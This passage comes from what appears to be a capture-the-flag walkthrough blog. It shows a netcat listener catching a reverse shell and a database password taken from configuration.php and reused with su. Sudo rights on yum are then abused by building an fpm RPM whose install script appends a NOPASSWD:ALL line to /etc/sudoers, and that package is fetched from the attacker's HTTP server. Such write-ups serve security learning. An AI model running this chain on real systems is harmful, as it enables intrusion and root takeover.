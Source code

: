 nc -nlvp 1234

![](https://blogger.googleusercontent.com/img/a/AVvXsEhYo8AYrFzQx1if380pLpJw-nZHdqsQUjDh4hbYFpezgZWVd1IeFXXPlMHDdXZJPBWkR5mFuItkIwOHvzFBsuJIdW8nvP8v5mYxSkx1kPUuzRCjWYz9ThuGDWGQg78nubo1y9VSr3PqPjqSCOtNG5l2nA9DrhsESWctttsj-InPe3kcXAdfspUyxXaseQ=s16000)

On our listener we see a shell popped up!

###  Privilege Escalation

Now that we have a working TTY on the victim box, we started looking for ways to escalate privileges. We checked the sudoers file but nothing was found.

![](https://blogger.googleusercontent.com/img/a/AVvXsEhQhNauxqMqhOh-lReB8JfRSE_29lSPjpEcRT5NuIb4tgJz63Udy72t3m9eLjoZwQZre4gXJ0Gx1h1wsGdbYCMJgOkN73zHxI5zpezFTcRxJ2mOzzJwh1pbXrogjrexcC1Z8KkZFk7CiZxOg3-jJf1cLEvFFMgp7T8JuqC2zx9UBBvS0achn_PF5MVrJg=s16000)

After a quick system check and looking at the website’s files, we found a configuration file that had credentials of a database. root user had the password: **nv5uz9r3ZEDzVjNu**

cd /var/www/html

cat configuration.php

![](https://blogger.googleusercontent.com/img/a/AVvXsEhWVBOUGBMybQTxYpnVYOVtNnZ670yrF7lhEn9G0P1MvE3E8pDQZoWlrj8tnKqZnPNztu-iiR_p_nSO2Tk9Fz-pKubTnAkvTPKxKZ5IC65cSjoS7pemulMAug2tR80l40ppDqXi5v65FNW-h8UQMe-4klpr9Rf1DB9JcgW06NhnEPJ_4zZLSLoJ89h3oA=s16000)

Now, we tried to login into another existing user jjameson using this password and it worked! We immediately spawned a stable teletype using python. Thereafter, we looked into the sudoers file and found yum in the entries.

su jjameson

python -c 'import pty;pty.spawn("/bin/bash")'

sudo -l

![](https://blogger.googleusercontent.com/img/a/AVvXsEgfq0kL9_AtVTpJBemPkXKno-nAQBW_uzyKWH9WIw6Zsc-AgTsPAuvZTSch5lyLVkQRyZbBy3IuUW81K59bBiHGdL9cHznA_7AgEuCVy3SWVTt_OKJOvBbxuNXzTDQ9Sftt0Z9lExL1LqtZSNUh3QhacOSU61t-q4KqYXh6Pjt_6YZaAsPxo-F2PjSxug=s16000)

Referring to gtfobins post **[here](https://gtfobins.github.io/gtfobins/yum/)** we can escalate our privileges by creating our custom RPM executable. For this we need rpm, fpm to be installed first. Thereafter, we’ll copy a command into a shell script. This echo command simply adds my user jjameson into the sudoers file so that any command can be run as root. This would be our payload. Then we create an rpm package using fpm package.

apt install rpm

gem install fpm

echo 'echo "jjameson ALL=(root) NOPASSWD:ALL" >> /etc/sudoers' > my.sh

fpm -n root -s dir -t rpm -a all --before-install my.sh .

python3 -m http.server 80

![](https://blogger.googleusercontent.com/img/a/AVvXsEiL9qM-HsFZBEXvnXw1_IuGYi8HL659Z7T-g69BAniicCBToAgl_mR5Xy8MR2Hjv3gUO68H3z0HCQtcJH00h0OB2uRdpudQSTb6ag3-MKnilV-7wJI-lIk8q4-3RFXGuN6EsCnXnYv2DZfLwcTOyrb43HzD6guOkRijMQDs6w0bWstKy65jVI_XaVov4g=s16000)

Now all that’s left to do was to copy this file into /tmp directory on the victim’s box.

cd /tmp

wget http://10.17.32.212/root-1.0-1.noarch.rpm

![](https://blogger.googleusercontent.com/img/a/AVvXsEjdicIbEno9Huh1TnK16s0bGoJQvBsBVbtRS-oorM-vvVtqoTC4Hx0ux3eTzz7At6gSRMDw7Dh3hytmFNyewITTESBrIJEazMPmEpUZRDzCK-2a-kr7sarNsSOa5-G6BX_LYtAc4HrlMVk38Ux-g9zhFipQDoKeQL34vYHx9zI8BfZEDHzjkb_2u1pO8A=s16000)
